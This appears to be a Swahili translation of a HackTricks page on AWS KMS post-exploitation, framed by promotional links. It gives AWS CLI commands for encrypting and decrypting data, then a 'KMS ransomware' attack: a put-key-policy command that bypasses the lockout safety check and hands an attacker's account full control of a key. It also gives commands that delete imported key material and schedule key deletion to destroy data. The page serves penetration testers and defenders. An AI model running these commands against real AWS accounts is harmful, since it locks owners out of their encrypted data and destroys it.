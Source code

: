 # AWS - KMS Post Exploitation

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## KMS

Kwa habari zaidi angalia:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Ficha/Fichua habari

* Kutumia funguo za **simetrik**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Kutumia funguo ya **asimetri**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Ikiwa unapokea kosa 'Kosa lilijitokeza (InvalidCiphertextException) wakati wa kuita operesheni ya Decrypt:' unapojaribu kufanya kms decrypt jaribu kutumia **`--ciphertext-blob file://`** badala ya **`fileb://`**.

Matumizi ya **`file://`** hukuruhusu kutumia urahisi wa kutumia faili zilizoandikwa kwa namna yako inayopendelewa ya uendeshaji wakati unapotumia CLI.
Katika toleo 1.6.3 na zaidi ya CLI, una ufikiaji wa njia nyingine ya kupitisha maudhui ya faili kwa CLI, **`fileb://`**. Inafanya kazi kwa njia sawa na **`file://`**, lakini badala ya kusoma maudhui ya faili kama maandishi, inasomwa kama binary.

Kwa kesi nyingi, **`file://`** itakidhi mahitaji yako ya kupitisha maudhui ya faili kama kuingia. Walakini, kuna baadhi ya kesi ambapo **`fileb://`** lazima itumike kupitisha maudhui ya faili kama binary badala ya maandishi.
Soma zaidi kutoka AWS hapa: [AWS Blog - Mbinu Bora kwa Parameta za Faili za Lokali](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Mshambuliaji mwenye ufikiaji wa kipekee juu ya KMS angeweza kubadilisha sera ya KMS ya funguo na **kumpa akaunti yake ufikiaji juu yake**, kuondoa ufikiaji uliopewa akaunti halali.

Kisha, watumiaji wa akaunti halali hawataweza kupata habari yoyote ya huduma yoyote iliyofichwa na funguo hizo, ikiumba ransomware rahisi lakini yenye ufanisi juu ya akaunti.

{% hint style="warning" %}
Tafadhali kumbuka kwamba **funguo zilizosimamiwa na AWS hazijaathiriwa** na shambulio hili, ni **funguo zilizosimamiwa na Mteja** tu.

Pia tafadhali elewa haja ya kutumia parameta **`--bypass-policy-lockout-safety-check`** (ukosefu wa chaguo hili kwenye konsoli ya wavuti hufanya shambulio hili iwezekane tu kutoka kwa CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Tafadhali kumbuka kwamba ukibadilisha sera hiyo na kumpa ufikiaji kwa akaunti ya nje pekee, kisha kutoka kwa akaunti hii ya nje jaribu kuweka sera mpya ya **kumpa ufikiaji kwa akaunti ya awali, hautaweza**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### KMS Ransomware ya Kijenetiki

#### KMS Ransomware ya Kimataifa

Kuna njia nyingine ya kutekeleza KMS Ransomware ya kimataifa, ambayo ingehusisha hatua zifuatazo:

* Unda **ufunguo mpya na vifaa vya ufunguo** vilivyoingizwa na mshambuliaji
* **Re-encrypt data za zamani** zilizoandikwa na toleo la awali na lile jipya.
* **Futa ufunguo wa KMS**
* Sasa ni mshambuliaji pekee, ambaye ana vifaa vya ufunguo wa awali, anaweza kufanikiwa kufichua data iliyofichwa

### Haribu ufunguo
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Tafadhali kumbuka kuwa AWS sasa **inazuia hatua za awali kufanywa kutoka kwenye akaunti nyingine:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

